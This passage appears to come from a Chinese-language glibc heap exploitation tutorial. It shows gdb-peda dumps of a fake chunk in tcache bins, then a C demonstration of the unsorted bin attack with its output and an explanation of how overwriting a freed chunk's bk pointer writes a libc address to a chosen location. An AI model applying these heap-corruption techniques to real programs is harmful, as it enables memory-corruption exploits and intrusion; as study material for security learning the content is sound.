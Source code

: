 ```
gdb-peda$ x/6gx victim - 2
0x555555756250: 0x0000000000000000      0x0000000000000091  <-- victim chunk
0x555555756260: 0x00007ffff7dd2b80      0x00007ffff7dd2b80
0x555555756270: 0x0000000000000000      0x0000000000000000
gdb-peda$ x/4gx fake - 2
0x7fffffffdcb0: 0x0000000000000000      0x0000000000000110  <-- fake chunk
0x7fffffffdcc0: 0x00007ffff7dd2b00      0x00007fffffffdcb0
gdb-peda$ x/26gx 0x0000555555756000+0x10
0x555555756010: 0x0700000000000000      0x0700000000000000  <-- counts  <-- counts
0x555555756020: 0x0000000000000000      0x0000000000000000
0x555555756030: 0x0000000000000000      0x0000000000000000
0x555555756040: 0x0000000000000000      0x0000000000000000
0x555555756050: 0x0000000000000000      0x0000000000000000
0x555555756060: 0x0000000000000000      0x0000000000000000
0x555555756070: 0x0000000000000000      0x0000000000000000
0x555555756080: 0x0000000000000000      0x0000555555756670  <-- entries
0x555555756090: 0x0000000000000000      0x0000000000000000
0x5555557560a0: 0x0000000000000000      0x0000000000000000
0x5555557560b0: 0x0000000000000000      0x0000000000000000
0x5555557560c0: 0x0000000000000000      0x00007fffffffdcc0  <-- entries
0x5555557560d0: 0x0000000000000000      0x0000000000000000
```
可以看到在 malloc 时，fake chunk 被不断重复地链接到 tcache bin，直到装满后，才从 unsorted bin 里取出。同样的，fake chunk 的 fd 指向 unsorted bin。

#### unsorted_bin_attack
```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    unsigned long stack_var = 0;
    fprintf(stderr, "The target we want to rewrite on stack: %p -> %ld\n\n", &stack_var, stack_var);

    unsigned long *p  = malloc(0x80);
    unsigned long *p1 = malloc(0x10);
    fprintf(stderr, "Now, we allocate first small chunk on the heap at: %p\n",p);

    free(p);
    fprintf(stderr, "We free the first chunk now. Its bk pointer point to %p\n", (void*)p[1]);

    p[1] = (unsigned long)(&stack_var - 2);
    fprintf(stderr, "We write it with the target address-0x10: %p\n\n", (void*)p[1]);

    malloc(0x80);
    fprintf(stderr, "Let's malloc again to get the chunk we just free: %p -> %p\n", &stack_var, (void*)stack_var);
}
```
```
$ gcc -g unsorted_bin_attack.c 
$ ./a.out 
The target we want to rewrite on stack: 0x7ffc9b1d61b0 -> 0

Now, we allocate first small chunk on the heap at: 0x1066010
We free the first chunk now. Its bk pointer point to 0x7f2404cf5b78
We write it with the target address-0x10: 0x7ffc9b1d61a0

Let's malloc again to get the chunk we just free: 0x7ffc9b1d61b0 -> 0x7f2404cf5b78
```
unsorted bin 攻击通常是为更进一步的攻击做准备的，我们知道 unsorted bin 是一个双向链表，在分配时会通过 unlink 操作将 chunk 从链表中移除，所以如果能够控制 unsorted bin chunk 的 bk 指针，就可以向任意位置写入一个指针。这里通过 unlink 将 libc 的信息写入到我们可控的内存中，从而导致信息泄漏，为进一步的攻击提供便利。
